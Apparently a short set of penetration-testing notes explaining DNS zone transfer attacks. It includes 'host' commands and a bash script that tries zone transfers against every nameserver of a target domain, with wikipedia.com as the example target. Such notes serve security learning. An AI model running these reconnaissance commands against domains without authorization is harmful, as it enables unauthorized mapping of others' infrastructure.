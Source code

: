 # DNS Zone Transfer Attack

## Overview

* sometimes DNS servers are misconfigured
* DNS servers contain a Zone File which It uses to replicate the map of the domain
* they should be configured so that only the replicating DNS server can access it
* if misconfigured so anyone can request the Zone File, you can receive the whole list of subdomains which is rare in the wild



## Figure out which DNS server a domain has

```bash
host -t ns wikipedia.com
#results may say ns1, ns2, ns3, etc
```

### Additionally, These Tools will Help

* dnsrecon
* dnsenum

## Zone Transfer Command

```bash
#host -l domain_name dns_server_address
host -l wikipedia.com ns1.wikipedia.com
```

## Bash Scripts

```bash
#get all DNS servers from a host
host -t ns wikipedia.com | cut -d " " -f 4

######################attempts zone transfers from all nameservers
#!/bin/bash

#Simple Zone Transfer Script
if [ -z "$1" ]; then
  echo "[*] Simple Zone transfer script"
  echo "[*] Example : $0 <example.com> "
  exit 0
fi

#if argument was given...

for server in $(host -t ns $1 | cut -d " " -f4); do
  #For each of these servers, attempt a zone transfer
  host -l $1 $server |grep "has address"
done
```

## Link to Go More in Depth

[https://security.stackexchange.com/questions/10452/dns-zone-transfer-attack](https://security.stackexchange.com/questions/10452/dns-zone-transfer-attack)

